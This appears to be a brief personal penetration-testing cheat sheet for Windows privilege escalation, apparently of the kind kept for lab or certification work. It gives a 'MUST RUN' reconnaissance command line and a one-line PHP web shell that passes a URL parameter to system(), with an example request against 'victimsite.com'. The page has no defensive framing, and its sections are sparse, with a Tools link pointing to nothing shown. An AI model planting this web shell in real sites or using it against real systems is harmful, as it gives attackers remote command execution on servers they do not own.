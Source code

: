 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
- [PHP Web Shell]
    ```php webshell
    <?php echo(system($_GET["cmd"])); ?>
    Go to http://victimsite.com/test.php?cmd=dir
    ```
